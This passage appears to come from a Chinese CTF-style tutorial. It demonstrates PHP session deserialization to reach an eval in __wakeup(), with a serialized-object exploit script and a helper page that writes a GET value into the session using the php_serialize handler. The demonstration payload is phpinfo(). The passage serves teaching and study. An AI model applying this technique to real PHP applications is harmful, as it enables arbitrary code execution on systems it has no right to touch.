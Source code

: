 这应该是很简单的一个反序列化，反序列化后会先直接进入`__wakeup()`，然后就`eval`执行任意代码了，我们先写个exp：

```php
<?php
class Test{
    public $code='phpinfo();';
}
$a = new Test();
echo serialize($a);
?>
```

然后我们再写一个页面，因为这里既没有传参的点也没有反序列化的点，相对于有漏洞利用不了，那我们就写一个利用它的页面`sess.php`：

```php
<?php
highlight_file(__FILE__);
ini_set('session.serialize_handler', 'php_serialize');
session_start();
if(isset($_GET['test'])){
    $_SESSION['test']=$_GET['test'];
}
?>
```

有了这个页面我们就可以把想要的内容写入到`Session`中了，然后就可以在有漏洞的页面中执行反序列化了，接下来开始操作，首先运行`exp.php`：

![image.png](assets/2iyrQq49pSMuBdL.png)

然后我们通过`sess.php`将运行结果写入`Session`中，记得在前面加上`|`：

![image.png](assets/aulerJ2YxZfX54j.png)
